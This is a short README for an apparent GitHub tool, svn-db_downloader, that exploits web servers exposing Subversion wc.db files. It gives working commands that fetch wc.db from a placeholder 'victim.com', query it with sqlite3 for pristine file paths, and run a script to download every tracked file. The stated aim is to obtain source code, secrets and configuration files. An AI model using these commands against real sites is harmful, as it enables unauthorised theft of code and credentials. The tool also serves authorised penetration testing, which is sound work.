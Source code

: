 # svn-db_downloader
Little tool to exploit exposed SVN wc.db files

The tool will download all files that are also visible in the wc.db. This may help you to get access to source code, secrets, configuration files etc.

## Getting the required data
Download the exposed wc.db file and run the following command on it:

```bash
curl -o wc.db https://victim.com/wc.db
sqlite3 wc.db 'select local_relpath, ".svn/pristine/" || substr(checksum,7,2) || "/" || substr(checksum,7) || ".svn-base" as alpha from NODES;' > svn-input.txt
```

Next run the script using the resulting svn-input.txt file.

```bash
./svn-db_parser.sh --baseurl "https://victim.com" --input svn-input.txt --output report
```


